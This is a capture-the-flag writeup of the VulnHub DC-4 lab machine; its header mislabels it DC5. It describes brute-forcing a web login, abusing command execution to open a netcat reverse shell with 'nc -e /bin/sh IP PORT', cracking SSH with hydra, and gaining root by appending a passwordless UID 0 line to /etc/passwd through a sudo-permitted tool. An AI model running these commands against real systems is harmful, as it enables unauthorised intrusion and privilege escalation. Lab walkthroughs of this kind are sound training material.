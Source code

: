 ```yaml
---
layout: post
title: Vulhub - DC4 writeup
date: 2019-07-11 1:13
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-4,313/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/dc4/nmap.png)

Looks like it's going to be one of those machine in which you don't have to think about where to start.

***

## HTTP

Visiting website gives us a simple form:

![](images/dc4/website.png)

Let's run `dirsearch` on the website:

![](images/dc4/dirsearch.png)

But looks like every page redirects to `index.php`. But we can use command line tools to see what is on that page. I used [httpie](https://httpie.org/)
to see the source of `command.php`.

![](images/dc4/no-redirect.png)

We can see that we can run multiple commands on that page etc but we need to be logged in to be able to do anything.

Since there's no way to do anything other then login so let's just brute force the credentials.

I decided to use burp suite intruder to do so.

![](images/dc4/credentials.png)

I got hit on multiple passwords. The one I used to login was `admin:54321`

After login I got a page that had the URL to `/command.php`

![](images/dc4/command.png)

I tried running the commands that where present there.

![](images/dc4/run-cmd.png)

Since we can run commands that means we can have reverse shell easily.

I intercepted the command request in burp and then sent the `netcat` command for reverse shell i.e `nc -e /bin/sh IP PORT` and got a reverse shell.

![](images/dc4/request.png)

![](images/dc4/shell.png)

For TTY shell:

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

***

* Time for **System enumeration**.

I ran `Enumeration script` to see if I can find anything interesting about the system.

I found some users:

![](images/dc4/users.png)

and a SUID in `Jim's` directory

![](images/dc4/suid.png)

I tried running that suid and got the following output:

![](images/dc4/output.png)

and `cat` showed that it had the following code in it:

![](images/dc4/code.png)

I think this is simple that we need to just edit that `test.sh` and get us a root shell. But the problem is we can't simply edit the file because we don't have the permission to do so.

I looked around in the `jim's` directory and saw a file named `mbox` for which we didn't had permission to read and a directory named `backups`

![](images/dc4/directory.png)

In the `backups` folder there was a file named `old-password.bak` which we could read and had lots of password.

![](images/dc4/passwords.png)

Maybe we can use these to login via `Jim's` SSH and then edit that file.

I downloaded that list and used hydra to bruteforce the credentials.

After few minutes hydra got a hit:

![](images/dc4/jim-ssh.png)

***

I logged in and edited the `test.sh` to get us a shell but it didn't worked.
But this time I was able to cat the `mbox` file.

![](images/dc4/mbox.png)

This looks like an email. So let's check out the `/var/mail` folder to see if we find anything (otherwise we'll run good old enum script :-) )

In the `/var/mail` folder I found an email to `charles`:

![](images/dc4/mail.png)

As we can see there's a password and a username i.e `charles` we can simply change our account to that of charles.

`charles:^xHhA&hvim0y`

![](images/dc4/su.png)

***

After I didn't found anything running the `enumeration` script I decided to see if I(`charles`) had any `sudo` right.

![](images/dc4/sudo.png)

`Charles` can run `teehee` with sudo rights.

Basically `teehee` can copy standard input to the file of our choice.

![](images/dc4/teehee.png)

We can simply add a user in the `/etc/passwd` without any password and have that user power of `root`. Something like `mzfr::0:0:::/bin/sh`

```bash
echo "mzfr::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
```

![](images/dc4/root-shell.png)

Then get the flag.

![](images/dc4/flag.png)

__NOTE__: If you have doubt in the `/etc/passwd` entry part then read [understanding-etcpasswd-file-format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)


